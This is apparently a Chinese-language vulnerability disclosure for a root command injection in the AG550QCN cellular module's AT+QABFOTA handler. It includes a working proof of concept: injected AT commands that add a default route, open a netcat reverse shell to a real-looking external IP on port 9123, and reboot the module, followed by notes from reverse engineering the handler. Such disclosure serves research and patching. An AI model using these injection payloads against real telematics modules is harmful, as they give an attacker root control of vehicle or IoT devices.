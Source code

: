 漏洞描述：
        AG550QCN模组ql_atfwd对AT指令'AT+QABFOTA=“package”... '处理时，参数过滤不严格，存在命令注入漏洞，可以直接root权限执行任意命令，并反弹shell。


受影响模组基本信息：

模组：AG550QCN
模组系统版本：Linux sa515m 4.14.206-perf #1 PREEMPT Sat Jun 11 02:53:21 CST 2022 armv7l GNU/Linux


反弹shell POC演示

外网机器监听9123端口
                nc -lvvp 9123


Tbox MPU执行下列命令
                1、添加路由器规则，让modem连接外网    （模组没有默认路由，所以无法直接访问外网，需要手动添加）
                        echo 'AT+QABFOTA="package",1&&ip route add default dev rmnet_data1' >/dev/ttyUSB1
                2、反弹shell
                        echo 'AT+QABFOTA="package",1&&nc 123.56.128.98 9123 -e /bin/sh' >/dev/ttyUSB1




漏洞详情：

  1、at fwd程序 支持QABFOTA命令
  ![image](0.png)
  2、进入处理函数5AF4
  ![image](1.png)
  3、off_267C4是子功能列表，["reboot",func_reboot,"state",func_state…]
  ![image](2.png)
  3、分析package处理函数 sub_11B20+1
  ![image](3.png)
  4、system(s)函数，其中s直接引用用户的输入，没有做过滤

POC：

#MPU执行下列命令，另4g module重启
Echo 'AT+QABFOTA="package",1&&reboot' >/dev/ttyUSB1
#4G模组执行
Ql_cmd at 'AT+QABFOTA="package",1&&reboot'
5、进入模组使用strace分析，可以看到命令被添加到"sh","-c","fotainfo…" 中
![image](4.png)



